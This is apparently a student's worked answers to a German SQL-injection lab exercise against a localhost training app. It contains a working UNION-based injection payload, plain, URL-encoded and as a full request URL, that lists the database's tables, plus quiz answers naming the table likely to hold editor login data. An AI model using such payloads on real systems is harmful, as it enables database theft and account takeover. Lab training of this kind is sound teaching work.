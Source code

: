 Ändern Sie das Statement so ab, dass Sie die Namen der Tabellen in der Datenbank auslesen können.

Tipp:
Sie benötigen die Funktion `GROUP_CONCAT()` sowie Metadaten aus der View `INFORMATION_SCHEMA.TABLES`.

Tipp 2:
https://chartio.com/learn/databases/using-information-schema-views-to-check-to-see-if-table-exists-in-sql-server/

' AND 1=0 UNION SELECT 0,0,0,0,0,(SELECT GROUP_CONCAT(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='highlight_db' ),0;--
'%20AND%201%3D0%20UNION%20SELECT%200%2C0%2C0%2C0%2C0%2C(SELECT%20GROUP_CONCAT(TABLE_NAME)%20FROM%0AINFORMATION_SCHEMA.TABLES%20WHERE%20TABLE_SCHEMA%3D'highlight_db'%20)%2C0%3B--%20
http://localhost:82/index.php?id=2%27%20AND%201%3D0%20UNION%20SELECT%200%2C0%2C0%2C0%2C0%2C(SELECT%20GROUP_CONCAT(TABLE_NAME)%20FROM%0AINFORMATION_SCHEMA.TABLES%20WHERE%20TABLE_SCHEMA%3D%27highlight_db%27%20)%2C0%3B--%20

>>11) Welche Tabellen befinden sich in der Datenbank? Geben Sie die Tabellennamen in alphabetisch aufsteigender Sortierung und durch Leerzeichen getrennt an.<<
=== author community highlight

>>12) Welche der Tabellen könnte Login-Daten für Accounts mit Bearbeitungsrechten enthalten?<<
=== author